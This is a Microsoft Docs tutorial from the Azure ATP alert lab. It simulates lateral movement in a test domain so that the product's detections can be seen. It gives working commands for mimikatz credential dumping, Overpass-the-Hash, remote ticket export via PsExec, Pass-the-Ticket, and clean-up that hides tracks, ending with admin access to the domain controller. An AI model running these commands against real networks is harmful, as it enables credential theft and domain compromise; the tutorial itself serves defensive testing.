---
# required metadata

title: Azure ATP Security Alert Lateral Movement Playbook | Microsoft Docs
description: The Azure ATP playbook describes how to simulate Lateral Movement threats for detection by Azure ATP.
ms.service: azure-advanced-threat-protection
ms.topic: tutorial
author: mlottner
ms.author: mlottner
ms.date: 02/27/2019

# optional metadata

# ms.custom
ms.reviewer: itargoet
# ms.subservice
# ROBOTS
# Customer intent: As an Azure ATP user, I want to simulate lateral movement threats in a lab so I can see some of Azure ATP's capabilities.
---

# Tutorial: Lateral movement playbook

The lateral movement playbook is third in the four part tutorial series for Azure ATP security alerts. The purpose of the Azure ATP security alert lab is to illustrate **Azure ATP**'s capabilities in identifying and detecting suspicious activities and potential attacks against your network. The playbook explains how to test against some of Azure ATP's *discrete* detections. The playbook focuses on Azure ATP’s *signature*-based capabilities and doesn't include advanced machine-learning, user or entity-based behavioral detections (these require a learning period with real network traffic for up to 30 days). For more information about each tutorial in this series, see the [ATP security alert lab overview](atp-playbook-lab-overview.md).

This playbook shows some of the lateral movement path threat detections and security alerts services of Azure ATP by mimicking an attack with common, real-world, publicly available hacking and attack tools.

In this tutorial you will:
> [!div class="checklist"]
> * Harvest NTLM hashes and simulate an Overpass-the-Hash attack to obtain a Kerberos Ticket Granting Ticket (TGT).
> * Masquerade as as another user, move laterally across the network, and harvest more credentials.
> * Simulate a Pass-the-Ticket attack to gain access to the domain controller.
> * Review the security alerts from the lateral movement in Azure ATP.

## Prerequisites

1. [A completed ATP security alert lab](atp-playbook-setup-lab.md) 
     - We recommend following the lab setup instructions as closely as possible. The closer your lab is to the suggested lab setup, the easier it will be to follow the Azure ATP testing procedures.

2. [Completion of the reconnaissance playbook tutorial](atp-playbook-reconnaissance.md)

## Lateral Movement

From our simulated attacks in the previous tutorial, the reconnaissance playbook, we gained extensive network information. Using that information, our goal during this Lateral Movement phase of the lab is getting to the critical value IP addresses we already discovered and seeing Azure ATP's alerts on the movement. In the previous Reconnaissance lab simulation, we identified 10.0.24.6 as the target IP since that was where SamiraA’s computer credentials were exposed. We'll mimic various attack methods to try to move laterally across the domain.

## Dump Credentials In-Memory from VictimPC

During our mock reconnaissance attacks, **VictimPC** wasn't only exposed to JeffL’s credentials. There are other useful accounts to discover on that machine. To achieve a lateral move using **VictimPC**, we'll attempt to enumerate in-memory credentials on the shared resource. Dumping in-memory credentials using **mimikatz** is a popular attack method using a common tool.

### Mimikatz sekurlsa::logonpasswords

1. Open an **elevated command prompt** on **VictimPC**. 
2. Navigate to the tools folder where you saved Mimikatz and execute the following command:

   ``` cmd
   mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\temp\victimcpc.txt
   ```

3. Open **c:\\temp\\victimpc.txt** to view the harvested credentials Mimikatz found and wrote to the txt file.
   

4. We successfully harvested RonHD's NTLM hash from memory using mimikatz. We'll need the NTLM hash shortly.

   > [!Important]
   > - It's expected and normal that the hashes shown in this example are different from the hashes you see in your own lab environment. The purpose of this exercise is to help you understand how the hashes were obtained, get their values, and use them in the next phases. </br> </br>
   > - The credential of the computer account was also exposed in this harvest. While the computer account credential value is not useful in our current lab, remember this is another avenue real attackers use to gain lateral movement in your environment.

### Gather more information about the RonHD account

An attacker may not initially know who RonHD is or its value as a target. All they know is they can use the credential if it's advantageous to do so. However, using the **net** command we, acting as an attacker, can discover what groups RonHD is a member of.

From **VictimPC**, run the following command:

   ``` cmd
   net user ronhd /domain
   ```



From the results, we learn RonHD is a member of the "Helpdesk" Security Group. We know RonHD gives us privileges that come with the account *and* with the Helpdesk Security Group.

### Mimikatz sekurlsa::pth

Using a common technique called **Overpass-the-Hash**, the harvested NTLM hash is used to obtain a Ticket Granting Ticket (TGT). An attacker with a user's TGT, can masquerade as a compromised user such as RonHD. While masquerading as RonHD, we can access any domain resource the compromised user has access to or their respective Security Groups have access to.

1. From **VictimPC**, change directory to the folder containing **Mimikatz.exe**. storage location on your filesystem and execute the following command:

   ``` cmd
   mimikatz.exe "privilege::debug" "sekurlsa::pth /user:ronhd /ntlm:96def1a633fc6790124d5f8fe21cc72b /domain:contoso.azure" "exit"
   ```

   > [!Note]
   > If your hash for RonHD was different in the previous steps, replace the NTLM hash above with the hash you gathered from *victimpc.txt*.

   

2. Check that a new command prompt opens. It will be executing as RonHD, but that may not seem obvious *yet*. Don't close the new command prompt since you'll use it next.

Azure ATP won’t detect a hash passed on a local resource. Azure ATP detects when a hash is **used from one resource to access another** resource or service.

### Additional lateral move

Now, with RonHD's credential, can it give us access we previously didn't have with JeffL's credentials?
We'll use **PowerSploit** ```Get-NetLocalGroup``` to help answer that.

1. In the command console that opened up because of our previous attack, running as RonHD, execute the following items:

   ``` PowerShell
   powershell
   Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
   Import-Module C:\tools\PowerSploit\PowerSploit.psm1 -Force
   Get-NetLocalGroup 10.0.24.6
   ```

   

   Behind the scenes, this uses Remote SAM to identify the local admins for the IP we discovered earlier that was exposed to a Domain Admin account.

   Our output will look similar to:

   

   This machine has two Local Administrators, the built-in Administrator "ContosoAdmin" and "Helpdesk". We know RonHD is a member of the "Helpdesk" Security Group. We also were told the machine's name, AdminPC. Since we have RonHD's credentials, we should be able to use it to laterally move to AdminPC and gain access to that machine.

2. From the *same command prompt, which is running in context of RonHD*, type **exit** to get out of PowerShell if needed. Then, run the following command:

   ``` cmd
   dir \\adminpc\c$
   ```

3. We successfully accessed AdminPC. Let's see what tickets we have. In the same cmd prompt, run the following command:

   ``` cmd
   klist
   ```

   

You can see that, for this particular process, we have RonHD's TGT in memory. We successfully performed an Overpass-the-Hash attack in our lab. We converted the NTLM hash that was compromised earlier and used it to obtain a Kerberos TGT. That Kerberos TGT was then used to gain access to another network resource, in this case, AdminPC. 

### Overpass-the-Hash Detected in Azure ATP

Looking at the Azure ATP console, we can see the following things:



Azure ATP detected that RonHD's account was compromised on VictimPC and then used to successfully get a Kerberos TGT. If we click on RonHD's name in the alert, we're taken to the Logical Activity timeline of RonHD, where we can further our investigation.


In the Security Operations Center, our Security Analyst is made aware of the compromised credential and can quickly investigate what resources it accessed.

## Domain Escalation

From our simulated attack, we don't just have access to AdminPC, we have validated Administrator privileges on AdminPC. We can now laterally move to AdminPC and harvest more credentials.

Here, we will:

* Stage Mimikatz on AdminPC
* Harvest Tickets on AdminPC
* Pass-the-Ticket to become SamiraA

### Pass-the-Ticket

From the command prompt running in the context of *RonHD* on **VictimPC**, traverse to where our common attack-tools are located. Then, run xcopy to move those tools to the AdminPC:

``` cmd
xcopy mimikatz.exe \\adminpc\c$\temp
```

Press ```d``` when prompted, stating that the "temp" folder is a directory on AdminPC.


### Mimikatz sekurlsa::tickets

With Mimikatz staged on AdminPC, we'll use PsExec to remotely execute it.

1. Traverse to where PsExec is located and execute the following command:

   ``` cmd
   PsExec.exe \\AdminPC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit")
   ```

   That command will execute and export the tickets found in the LSASS.exe process and place them in the current directory, on AdminPC.

2. We need to copy the tickets back over to VictimPC from AdminPC. Since we're only interested in SamiraA's tickets for this example, execute the following command:

   ``` cmd
   xcopy \\adminpc\c$\temp\*SamiraA* c:\temp\adminpc_tickets
   ```

   

3. Let's clean up our tracks on AdminPC by deleting our files.

   ``` cmd
   rmdir \\adminpc\c$\temp /s /q
   ```

   > [!Note]
   > More sophisticated attackers will not touch disk when executing arbitrary code on a machine after gaining administrative privileges on it.

   On our **VictimPC**, we have these harvested tickets in our **c:\temp\adminpc_tickets** folder:

   


### Mimikatz Kerberos::ptt

With the tickets locally on VictimPC, it's finally time to become SamiraA by "Passing the Ticket".

1. From the location of **Mimikatz** on **VictimPC**'s filesystem, open a new **elevated command prompt**, and execute the following command:

   ``` cmd
   mimikatz.exe "privilege::debug" "kerberos::ptt c:\temp\adminpc_tickets" "exit"
   ```

   

2. In the same elevated command prompt, validate that the right tickets are in the command prompt session. Execute the following command:

   ``` cmd
   klist
   ```

   

3. Note that these tickets remain unused. Acting as an attacker, we successfully "passed the ticket". We harvested SamirA's credential from AdminPC, and then passed it to another process running on VictimPC.

   > [!Note]
   > Like in Pass-the-Hash, Azure ATP doesn't know the ticket was passed  based on local client activity. However, Azure ATP does detect the activity *once the ticket is used*, that is, leveraged to access another resource/service.

4. Complete your simulated attack by accessing the domain controller from **VictimPC**. In the command prompt, now running with the tickets of SamirA in memory, execute:

   ``` cmd
   dir \\ContosoDC\c$
   ```

   

Success! Through our mock attacks, we gained administrator access on our domain controller and succeeded in compromising our lab's Active Directory Domain/Forest.

### Pass the Ticket detection in Azure ATP

Most security tools have no way to detect when a legitimate credential was used to access a legitimate resource. In contrast, what does Azure ATP detect and alert on in this chain of events?

- Azure ATP detected theft of Samira's tickets from AdminPC and movement to VictimPC.
- The Azure ATP portal shows exactly which resources were accessed using the stolen tickets.
- Provides key information and evidence to identify exactly where to start your investigation and what remediation steps to take.

Azure ATP detections and alert information are of critical value to any Digital Forensics Incident Response (DFIR) team. You can not only see the credentials being stolen, but also learn what resources the stolen ticket was used to access and compromise.



> [!NOTE]
> This event will only display on the Azure ATP console in **2 hours**. Events of this type are purposefully suppressed for this timeframe to reduce false positives.

## Next steps
The next phase in the attack kill chain is domain dominance.

> [!div class="nextstepaction"]
> [Azure ATP Domain Dominance playbook](atp-playbook-lateral-movement.md)

## Join the Community

Do you have more questions, or an interest in discussing Azure ATP and related security with others? Join the [Azure ATP Community](https://techcommunity.microsoft.com/t5/Azure-Advanced-Threat-Protection/bd-p/AzureAdvancedThreatProtection) today!
